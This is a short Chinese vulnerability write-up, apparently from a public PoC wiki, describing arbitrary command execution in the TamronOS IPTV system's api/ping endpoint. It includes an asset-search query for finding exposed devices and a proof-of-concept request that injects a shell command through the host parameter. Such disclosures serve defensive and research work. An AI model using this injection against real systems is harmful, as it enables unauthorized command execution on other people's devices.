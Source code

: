 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/image-20210615145308242.png)



漏洞POC为

```plain
/api/ping?count=5&host=;id;
```

![img](/assets/PeiQi-Wiki/img/image-20210615145342322.png)